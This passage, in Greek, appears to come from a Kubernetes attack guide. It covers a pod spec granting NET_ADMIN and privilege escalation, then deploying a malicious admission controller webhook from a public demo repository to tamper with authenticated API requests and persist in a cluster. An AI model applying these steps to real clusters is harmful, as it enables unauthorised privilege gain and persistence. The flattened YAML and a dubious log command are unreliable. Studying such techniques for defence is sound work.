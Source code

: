 Δημιουργήστε το .yaml
```bash
kubectl run app --image=bash --command -oyaml --dry-run=client > <appName.yaml> -- sh -c 'ping google.com'
```
Επεξεργαστείτε το .yaml σας και προσθέστε τις μη σχολιασμένες γραμμές:
```yaml
#apiVersion: v1
#kind: Pod
#metadata:
#  name: security-context-demo
#spec:
#  securityContext:
#    runAsUser: 1000
#    runAsGroup: 3000
#    fsGroup: 2000
#  volumes:
#  - name: sec-ctx-vol
#    emptyDir: {}
#  containers:
#  - name: sec-ctx-demo
#    image: busybox
command: [ "sh", "-c", "apt update && apt install iptables -y && iptables -L && sleep 1h" ]
securityContext:
capabilities:
add: ["NET_ADMIN"]
#   volumeMounts:
#   - name: sec-ctx-vol
#     mountPath: /data/demo
#   securityContext:
#     allowPrivilegeEscalation: true
```
Δείτε τα αρχεία καταγραφής του proxy:
```bash
kubectl logs app -C proxy
```
Περισσότερες πληροφορίες στο: [https://kubernetes.io/docs/tasks/configure-pod-container/security-context/](https://kubernetes.io/docs/tasks/configure-pod-container/security-context/)

### Κακόβουλος Ελεγκτής Εισόδου

Ένας ελεγκτής εισόδου **παρεμβαίνει σε αιτήματα προς τον διακομιστή API του Kubernetes** πριν από την αποθήκευση του αντικειμένου, αλλά **μετά την πιστοποίηση** **και την εξουσιοδότηση** του αιτήματος.

Εάν ένας επιτιθέμενος καταφέρει με κάποιο τρόπο να **εισάγει έναν Κακόβουλο Ελεγκτή Εισόδου**, θα είναι σε θέση να **τροποποιήσει ήδη πιστοποιημένα αιτήματα**. Έχοντας τη δυνατότητα να αποκτήσει προνόμια, και πιο συχνά να παραμείνει στο cluster.

**Παράδειγμα από** [**https://blog.rewanthtammana.com/creating-malicious-admission-controllers**](https://blog.rewanthtammana.com/creating-malicious-admission-controllers):
```bash
git clone https://github.com/rewanthtammana/malicious-admission-controller-webhook-demo
cd malicious-admission-controller-webhook-demo
./deploy.sh
kubectl get po -n webhook-demo -w
```
Έλεγχος της κατάστασης για να δούμε αν είναι έτοιμο:
```bash
kubectl get mutatingwebhookconfigurations
kubectl get deploy,svc -n webhook-demo
```
![mutating-webhook-status-check.PNG](https://cdn.hashnode.com/res/hashnode/image/upload/v1628433436353/yHUvUWugR.png?auto=compress,format\&format=webp)
